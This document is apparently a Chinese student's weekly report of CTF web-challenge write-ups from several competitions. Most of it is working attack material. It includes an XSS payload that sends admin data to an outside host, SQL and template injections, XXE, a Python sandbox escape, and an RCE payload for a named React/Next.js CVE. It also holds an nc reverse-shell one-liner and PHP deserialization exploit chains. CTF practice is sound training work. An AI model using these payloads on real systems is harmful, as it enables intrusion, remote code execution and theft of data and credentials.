









# 周报15


## HGAME

### **TEST NC**

尝试连接远程环境，并通过远程环境的shell获取flag。

服务器连靶场环境即可


### **魔理沙的魔法目录**

打开网站，提示看一个小时

直接抓包，修改time值


### **博丽神社的绘马挂**

打开网站，有一个登录页面

弱口令爆破admin，admin


题目提示：

```
但是灵梦在整理这些绘马的时候不太用心，出现了一些问题...而且她没有发现紫在归档完毕的绘马里藏了一些不可告人的秘密
```

是个XSS漏洞，去偷那个归档页的内容就行。

/api/archives和api/messages都可以直接访问

**直接访问接口只能拿到「你自己的」归档 / 愿望，管理员访问接口能拿到「含 Flag 的所有内容」，接口做了严格的权限隔离**。

核心是 **「跨权限偷取」**——诱使管理员打开你发布的恶意愿望页面，恶意脚本在「管理员的浏览器」里执行（此时脚本带的是管理员的登录 Cookie），就能偷到管理员才能访问的、藏着 Flag 的归档内容，再把内容**外带 

payload：

```
r.text()).then(d=>fetch('http://......',{method:'POST',body:btoa(d)}))">
```

```

```

`credentials:'include'` —— 解决「权限不足」的核心（最关键！）作用：让请求。👉 你自己执行→带你的 Cookie→拿你的归档；，这才是题目要求的「XSS 偷归档内容」的核心。fetch自动携带当前执行脚本的浏览器的登录 Cookie管理员执行→带管理员的 Cookie→拿管理员权限的所有归档（含 Flag）

`.then(r=>r.text())` —— 统一格式：「把返回内容转成纯文本」

## **SHCTF** 

### **ez-ping**

先尝试127.0.0.1&ls发现可以查看，发现flag在根目录，cat和tac被过滤，用paste先查看ping.php


发现*被waf，用？代替，得到flag


### **kill_king**

在js文件查找flag，发现


```
var form = document.createElement("form");
form.method = "POST";
form.action = "check.php";
form.style.display = "none";
var input = document.createElement("input");
input.type = "hidden";
input.name = "result";
input.value = "win";
form.appendChild(input);
document.body.appendChild(form);
form.submit(); // 自动提交表单

```


是一个无字母rce，用取反最简单


### **上古遗迹档案馆**

典型的报错注入

1' and updatexml(1,concat('~',database()),1)-- 

1' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='secret_vault')),1)-- 

-1' and updatexml(1,concat('~',substr((select secret_key from secret_vault limit 0,1),20)),1)-- 

-1' and updatexml(1,concat('~',(select secret_key from secret_vault limit 0,1)),1)--


### **Mini Blog**

```
afiou&lt;script>alert(document.cookie)&lt;/script>z00s8
```

```
&lt;是 HTML 实体编码，对应原生的 <（小于号）；
&gt; 对应>（大于号）；
```


# furryCTF 2025

#### ezmd5


#### PyEditor

app.py

```
app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY', secrets.token_hex(32))
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024
socketio = SocketIO(app, cors_allowed_origins="*")

active_processes = {}

class PythonRunner:
    
    def __init__(self, code, args=""):
        self.code = code
        self.args = args
        self.process = None
        self.output = []
        self.running = False
        self.temp_file = None
        self.start_time = None
        
    def validate_code(self):
        try:
            if len(self.code) > int(os.environ.get('MAX_CODE_SIZE', 1024)):
                return False, "代码过长"
                
            tree = ast.parse(self.code)
            
            banned_modules = ['os', 'sys', 'subprocess', 'shlex', 'pty', 'popen', 'shutil', 'platform', 'ctypes', 'cffi', 'io', 'importlib']
            
            banned_functions = ['eval', 'exec', 'compile', 'input', '__import__', 'open', 'file', 'execfile', 'reload']
            
            banned_methods = ['system', 'popen', 'spawn', 'execv', 'execl', 'execve', 'execlp', 'execvp', 'chdir', 'kill', 'remove', 'unlink', 'rmdir', 'mkdir', 'makedirs', 'removedirs', 'read', 'write', 'readlines', 'writelines', 'load', 'loads', 'dump', 'dumps', 'get_data', 'get_source', 'get_code', 'load_module', 'exec_module']
            
            dangerous_attributes = ['__class__', '__base__', '__bases__', '__mro__', '__subclasses__', '__globals__', '__builtins__', '__getattribute__', '__getattr__', '__setattr__', '__delattr__', '__call__']
            
            for node in ast.walk(tree):
                if isinstance(node, ast.Import):
                    for name in node.names:
                        if name.name in banned_modules:
                            return False, f"禁止导入模块: {name.name}"
                        
                elif isinstance(node, ast.ImportFrom):
                    if node.module in banned_modules:
                        return False, f"禁止从模块导入: {node.module}"
                
                elif isinstance(node, ast.Call):
                    if isinstance(node.func, ast.Name):
                        if node.func.id in banned_functions:
                            return False, f"禁止调用函数: {node.func.id}"
                    
                    elif isinstance(node.func, ast.Attribute):
                        if node.func.attr in banned_methods:
                            return False, f"禁止调用方法: {node.func.attr}"
                    
                    elif isinstance(node.func, ast.Name):
                        if node.func.id == 'open':
                            return False, "禁止文件操作"
                
                elif isinstance(node, ast.With):
                    for item in node.items:
                        if isinstance(item.context_expr, ast.Call):
                            if isinstance(item.context_expr.func, ast.Name):
                                if item.context_expr.func.id == 'open':
                                    return False, "禁止文件操作"
                
                elif isinstance(node, ast.Attribute):
                    if node.attr in dangerous_attributes:
                        if isinstance(node.value, ast.Call) or isinstance(node.value, ast.Name):
                            return False, f"禁止访问危险属性: {node.attr}"
                
                elif isinstance(node, ast.Subscript):
                    if isinstance(node.value, ast.Attribute):
                        if node.value.attr == '__subclasses__':
                            return False, "禁止访问__subclasses__"
            
            return True, "代码验证通过"
            
        except SyntaxError as e:
            return False, f"语法错误: {str(e)}"
        except Exception as e:
            return False, f"验证错误: {str(e)}"
    
    def create_script(self):
        try:
            self.temp_file = tempfile.NamedTemporaryFile(
                mode='w', 
                suffix='.py', 
                dir='/tmp',
                delete=False
            )
            
            wrapper = """
import sys

def safe_exec():
    try:
{indented_code}
        return 0
    except SystemExit as e:
        return e.code if isinstance(e.code, int) else 0
    except Exception as e:
        print(f"执行错误: {{e}}", file=sys.stderr)
        return 1

sys.argv = ['sandbox.py'] + {args}

exit_code = safe_exec()

exit()
# Hey bro, don't forget to remove this before release!!!
import os
import sys

flag_content = os.environ.get('GZCTF_FLAG', '')
os.environ['GZCTF_FLAG'] = ''

try:
    with open('/flag.txt', 'w') as f:
        f.write(flag_content)
except:
    pass
"""
            
            indented_code = '\n'.join(['        ' + line for line in self.code.split('\n')])
            
            full_code = wrapper.format(
                indented_code=indented_code,
                args=str(self.args.split() if self.args else [])
            )
            
            self.temp_file.write(full_code)
            self.temp_file.flush()
            os.chmod(self.temp_file.name, 0o755)
            
            return self.temp_file.name
            
        except Exception as e:
            raise Exception(f"创建脚本失败: {str(e)}")
    
    def run(self):
        try:
            is_valid, message = self.validate_code()
            if not is_valid:
                self.output.append(f"验证失败: {message}")
                return False
                
            script_path = self.create_script()
            
            cmd = ['python', script_path]
            if self.args:
                cmd.extend(self.args.split())
            
            self.process = subprocess.Popen(
                cmd,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                stdin=subprocess.PIPE,
                text=True,
                bufsize=1,
                universal_newlines=True
            )
            
            self.running = True
            self.start_time = time.time()
            
            def read_output():
                while self.process and self.process.poll() is None:
                    try:
                        line = self.process.stdout.readline()
                        if line:
                            self.output.append(line.strip())
                            socketio.emit('output', {'data': line})
                    except:
                        break
                
                stdout, stderr = self.process.communicate()
                if stdout:
                    for line in stdout.split('\n'):
                        if line.strip():
                            self.output.append(line.strip())
                            socketio.emit('output', {'data': line})
                if stderr:
                    for line in stderr.split('\n'):
                        if line.strip():
                            self.output.append(f"错误: {line.strip()}")
                            socketio.emit('output', {'data': f"错误: {line}"})
                
                self.running = False
                socketio.emit('process_end', {'pid': self.process.pid})
            
            thread = threading.Thread(target=read_output)
            thread.daemon = True
            thread.start()
            
            return True
            
        except Exception as e:
            self.output.append(f"运行失败: {str(e)}")
            return False
    
    def send_input(self, data):
        if self.process and self.process.poll() is None:
            try:
                self.process.stdin.write(data + '\n')
                self.process.stdin.flush()
                return True
            except:
                return False
        return False
    
    def terminate(self):
        if self.process and self.process.poll() is None:
            self.process.terminate()
            self.process.wait(timeout=5)
            self.running = False
            
            if self.temp_file:
                try:
                    os.unlink(self.temp_file.name)
                except:
                    pass
            return True
        return False

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/api/run', methods=['POST'])
def run_code():
    data = request.json
    code = data.get('code', '')
    args = data.get('args', '')
    
    runner = PythonRunner(code, args)
    
    pid = secrets.token_hex(8)
    active_processes[pid] = runner
    
    success = runner.run()
    
    if success:
        return jsonify({
            'success': True,
            'pid': pid,
            'message': '进程已启动'
        })
    else:
        return jsonify({
            'success': False,
            'message': '启动失败'
        })

@app.route('/api/terminate', methods=['POST'])
def terminate_process():
    data = request.json
    pid = data.get('pid')
    
    if pid in active_processes:
        active_processes[pid].terminate()
        del active_processes[pid]
        return jsonify({'success': True})
    
    return jsonify({'success': False, 'message': '进程不存在'})

@app.route('/api/send_input', methods=['POST'])
def send_input():
    data = request.json
    pid = data.get('pid')
    input_data = data.get('input', '')
    
    if pid in active_processes:
        success = active_processes[pid].send_input(input_data)
        return jsonify({'success': success})
    
    return jsonify({'success': False})

@socketio.on('connect')
def handle_connect():
    emit('connected', {'data': 'Connected'})

@socketio.on('disconnect')
def handle_disconnect():
    pass

if __name__ == '__main__':
    socketio.run(app, host='0.0.0.0', port=5000, debug=False, allow_unsafe_werkzeug=True)
```

典型的沙盒逃逸

```
def create_script(self):
try:
self.temp_file = tempfile.NamedTemporaryFile(...)

# 核心：脚本执行的模板 wrapper

wrapper = """
import sys  # 【漏洞1】全局预导入sys，无需用户自己import
def safe_exec():
try:
{indented_code}  # 这里是用户传入的代码，被缩进后放入safe_exec函数执行
return 0
except ...:
return 1
sys.argv = ['sandbox.py'] + {args}
exit_code = safe_exec()  # 【漏洞2】先执行用户代码
exit()

# Hey bro, don't forget to remove this before release!!!  # 出题人提示：遗留代码

import os  # 【漏洞3】全局导入os
import sys
flag_content = os.environ.get('GZCTF_FLAG', '')  # 读取flag环境变量
os.environ['GZCTF_FLAG'] = ''  # 清空环境变量（在用户代码执行后）
try:
with open('/flag.txt', 'w') as f:
f.write(flag_content)  # 把flag写入/flag.txt（在用户代码执行后）
except:
pass
"""
indented_code = '\\n'.join(['        ' + line for line in self.code.split('\\n')])
full_code = wrapper.format(indented_code=indented_code, args=str(self.args.split() if self.args else []))
self.temp_file.write(full_code)
...


```

**漏洞 1：全局预导入 sys，绕过导入检测**


- 沙箱的`validate_code`严格禁止用户写`import`语句，但**模板在全局作用域提前导入了 sys**，用户代码可以**直接使用 sys 这个全局变量**，无需任何 import 操作。
- 这就是我们 Payload 中`os = sys.modules['os']`能生效的**前提**：如果没有预导入 sys，我们连 sys 都用不了，更别说从 sys.modules 取 os 了。


**漏洞 2：**`**用户代码执行时序优先于 flag 清空 / 写入**（最核心的时序漏洞）

**漏洞 3：模板注释后的遗留代码，全局导入 os 并暴露 flag 位置**


- 出题人留了注释`Don't forget to remove this before release!!!`，明确提示这是**未删除的调试代码**；
- 这段代码不仅告诉我们`flag藏在GZCTF_FLAG环境变量`，还帮我们**在全局作用域导入了 os**（`sys.modules['os']`能取到 os 的原因）；
- 即使没有这个遗留代码，sys.modules 中也会缓存系统的 os 模块，一样能获取，这段代码只是出题人的 “善意提示”。


```
os = sys.modules['os']
```

`sys.modules` 是 Python 中一个字典，缓存了所有已经导入的模块。

`sys.modules['os']` 直接从缓存中取出 `os` 模块，而不是用 `import os` 这种常规方式。

这种写法的目的是 **绕过导入限制**：如果题目环境禁用了 `import os`，但 `os` 模块已经被其他代码加载过，就可以用这种方式 “偷” 到 `os` 模块的引用。

```
print(os.environ.get('GZCTF_FLAG', ''))
```

`os.environ` 是一个字典，包含了当前进程的所有环境变量。

`os.environ.get('GZCTF_FLAG', '')` 尝试读取名为  的环境变量：

最后用 `print` 把结果输出，让攻击者拿到 flag。

## 2025春秋杯

### HyperNode


存在路径遍历漏洞

payload：

```
/article?id=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```


### Session_Leak

根据提供的账户密码登录，这里再跳转的同时发现`X-Session-Key: youfindme`


猜测下面的session就是我们admin 所需要的，讲testuser换成admin,session替换重发


访问/admin，拿到flag


### My_Hidden_Profile


提示admin的id为999，点击user1，发现get传id=1，那我们直接传999，得到flag


### Just_Web

弱口令爆破admin / admin123，成功登录

**路径穿越覆盖模板文件 + FreeMarker 模板注入（SSTI）执行命令**两个漏洞的组合利用

FreeMarker允许在模板里写代码。如果模板里包含特定的标签，服务器在渲染页面时就会执行这些代码

**FreeMarker 模板渲染**：网站的每个页面（比如 /profile 个人中心），都对应一个 **.ftl 后缀的模板文件 **（可以理解为「网页的草稿纸」）。服务器显示 /profile 页面时，会去**固定目录**读取这个草稿纸（profile.ftl），然后按照草稿纸的格式生成最终的网页给用户看。

ssti:

```
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("cat /flag")}
```

用这个payload生成profile.ftl文件

利用文件上传功能，本来应该上传图片到 /static/uploads/，但是我们修改了路径…/…/…/…/app/resources/templates/profile.ftl，直接覆盖，当我们再次访问 /profile 页面时


### Theme_Park


首先，我们利用搜索接口 /api/search 的 SQL 注入漏洞，从数据库的 config 表中提取 Flask 应用的密钥`' UNION SELECT key, value FROM config --`


利用key我们在本地伪造一个包含 {‘is_admin’: True} 的 Session Cookie,也就是被序列化并进行 Base64 编码

伪造管理员 Session Cookie：Cookie: eyJpc19hZG1pbiI6dHJ1ZX0.aX70_g.HtR-X7ew9AP5ccjziappj8AToRE

伪造之后可以进入后台/admin/upload进行文件上传


发现可以文件上传，上传文件进行测试发现只允许上传，fuzz一下发现不允许上传图片，只允许上传.zip,.html,.txt，内容测试发现正常回显{{7*7}}，构建payload：{{ url_for.__globals__['os'].popen('cat /flag').read() }}发现被过滤，这里就没有继续fuzz，因为测试的时候没有过滤数字所有这里就进行16进制编码{{ url_for.__globals__['\x6f\x73']['\x70\x6f\x70\x65\x6e']('\x63\x61\x74\x20\x2f\x66\x6c\x61\x67')['\x72\x65\x61\x64']() }}


### URL_Fetcher


这里进制访问，被过滤了，尝试localhost和127.1，这里发现简写没有被过滤，后面尝试,3306,80/8080,6379，SSRF 打redis


`6379`：Redis 数据库默认端口；


## SpringCTF新生赛复现

### Ez_xxe


抓包才能发现漏洞点，是XML


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE rss [
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
]>
<rss version="2.0">
  <channel>
    <title>&xxe;</title>
  </channel>
</rss>
```


### Next Time, Please React

题目提示是一个CVE

发现是cve 2025 55182

POST传：

```
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then":"$1:__proto__:then",
  "status":"resolved_model",
  "reason":-1,
  "value":"{\"then\":\"$B1337\"}",
  "_response":{
    "_prefix":"var res=process.mainModule.require('child_process').execSync('whoami').toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks":"$Q2",
    "_formData":{
      "get":"$1:constructor:constructor"
    }
  }
}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

注意Content-Type改成:

```
multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
```


这里发现直接ls命令是不行的，需要base64编码

```
ls / | base64 -w 0
```

`-w 0`：Base64 命令的参数（关键优化）：

- `-w`（全称 `--wrap`）：是 Base64 命令的「换行控制」参数，默认值是 76，意思是编码后每 76 个字符就换一行。

- 0

  ：表示「关闭换行」，让编码结果变成

  一整段连续的字符串

  （没有换行符）。

  - 如果不加 `-w 0`，编码结果会被拆分成多行，HTTP 响应头传输时会截断换行后的内容，导致编码不完整；
  - 加了 `-w 0` 后，整段编码内容是连续的，能完整放在响应头里


### homework upload system-revenge

跟homework upload system不同的就是现在www-data⽤⼾没有可以⽤suid提权的命令，需要想⼀想怎么提权，没有了find命令的帮助。


发现有个文件有用户信息。但蚁剑⽤su命令是不会给你输密码的机会的：


因为蚁剑拿到的webshell是⾮交互式shell，切换⽤⼾在输⼊密码的过程是需要安全地关闭回显去接受 

密码的，⽽⾮交互式shell不⾜以⽀持安全地关闭回显，就会输不进密码

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 地址 >/tmp/f
```


现在可以进行提权了


### Native

```
class Start{
    public $arg;

    public function __construct($arg){
        $this->arg = $arg;
    }

    public function __destruct(){
        echo "<br>"."arg:".$this->arg."<br>";
    }

    public function __toString(){
        $this->arg->haohao;
        return "<br>"."Start Test"."<br>";
    }
}

class GetFlag{
    public $a;
    public $b;
    public $func;
    public $var;

    public function __get($arg){
        $a = $this->a;
        $b = $this->b;
        if($a!==$b && (!is_array($a)) && (!is_array($b)) && md5($a)===md5($b)){
            if(file_exists("risk.txt")){
                exit("High Risk");
            }else{
                echo "<br>"."Completely Safe"."<br>";
                $func = $this->func;
                $var = $this->var;
                $func($var);
            }
        }
    }
}

class UseFul{
    public $class;
    public $file;
    public $flags;

    public function __get($arg){
        $this->write($this->class,$this->file,$this->flags);
    }

    public function write($class,$file,$flags){
        $obj = new $class();
        $obj->open($file,$flags);
        echo "<br>"."Successful"."<br>";
        return true;
    }
}

unserialize($_GET['data']);
```

很明显可以看到利⽤点在 GetFlag 类的 __get() 魔术⽅法中的 $func($var); ，这可以直接 

RCE了，令 $func 为 system ， $var 为要执⾏的命令即可

然后看看如何才能执⾏到这句代码，会发现有个 if 判断是否存在 risk.txt ⽂件，如果不存在才会 

执⾏到我们想要的代码，这⾥可以访问⼀下发现⽂件是存在的

考虑使用PHP原生类

可以利⽤ ZipArchive 类的 open() ⽅法来删除⽂件，刚好在 UseFul 类的 write() ⽅法中有 

调⽤这个 open() ⽅法





```
$class ==> ZipArchive
$file ==> risk.txt
$flags ==> 8
```

然后就是要找怎么才能调⽤到 write() ⽅法，就是在该类的 __get() 魔术⽅法中可以调⽤

然后找如何才能触发 __get() 魔术⽅法，找找哪⾥调⽤了不存在的属性，就是在 Start 类的 

__toString() 魔术⽅法中调⽤了 haohao 这个不存在的属性

然后可以在该类的 __destruct() ⽅法中可以触发 __toString() 魔术⽅法，这就是这条POP链 

的开头了

exp:

```
<?php
error_reporting(0);
class Start{
public $arg;
public function __destruct(){
echo "<br>"."arg:".$this->arg."<br>";
}
public function __toString(){
$this->arg->haohao;
return "<br>"."Start Test"."<br>";
}
}
class UseFul{
public $class;
public $file;
public $flags;
public function __get($arg){
$this->write($this->class,$this->file,$this->flags);
}
public function write($class,$file,$flags){
$obj = new $class();
$obj->open($file,$flags);
echo "<br>"."Successful"."<br>";
return true;
}
}
$UseFul = new UseFul();
$UseFul->class = "ZipArchive";
$UseFul->file = "risk.txt";
$UseFul->flags = 8;
$Start1 = new Start();
$Start1->arg = $UseFul;
$Start2 = new Start();
$Start2->arg = $Start1;
$payload = serialize($Start2);
echo $payload;
```

成功删除risk.txt文件，此时 if 判断就可以通过了，然后继续往上看，还有⼀个 if 判断，是考的MD5强⽐较的，并且禁⽤ 了数组绕过 

这⾥给出两种⽅法绕过

1、原⽣类绕过MD5⽐较

笔记：

```
https://yschen20.github.io/2025/12/18/PHP%E5%8E%9F%E7%94%9F%E7%B1%BB%E5%88%A 

9%E7%94%A8/#%E5%8F%AF%E7%BB%95%E8%BF%87%E5%93%88%E5%B8%8C%E6%AF%9 

4%E8%BE%83%E7%9A%84%E7%B1%BB
```





Exception也是同理，Error 只能在 PHP7 使⽤，Exception 可以在 PHP5 以上的，这题版本是 

7.4.33，所以俩都可以⽤

所以可以构造成下⾯这种形式来绕过（⼀定要写在同⼀⾏）：

```
$Getflag->a = new Error("payload",1);$Getflag->b = new Error("payload",2);
# 或
$Getflag->a = new Exception("payload",1);$Getflag->b = new
Exception("payload",2);
```

2、NAN或INF绕过MD5⽐较



所以可以构造：

```
$Getflag->a = NAN;
$Getflag->b = "NAN";
# 或
$Getflag->a = INF;
$Getflag->b = "INF";
```

```
exp：
<?php
error_reporting(0);
class Start{
public $arg;
public function __destruct(){
echo "<br>"."arg:".$this->arg."<br>";
}
public function __toString(){
$this->arg->haohao;
return "<br>"."Start Test"."<br>";
}
}
class GetFlag{
public $a;
public $b;
public $func;
public $var;
public function __get($arg){
$a = $this->a;
$b = $this->b;
if($a!==$b && (!is_array($a)) && (!is_array($b)) && md5($a)===md5($b)){
if(file_exists("risk.txt")){
exit("High Risk");
}else{
echo "<br>"."Completely Safe"."<br>";
$func = $this->func;
$var = $this->var;
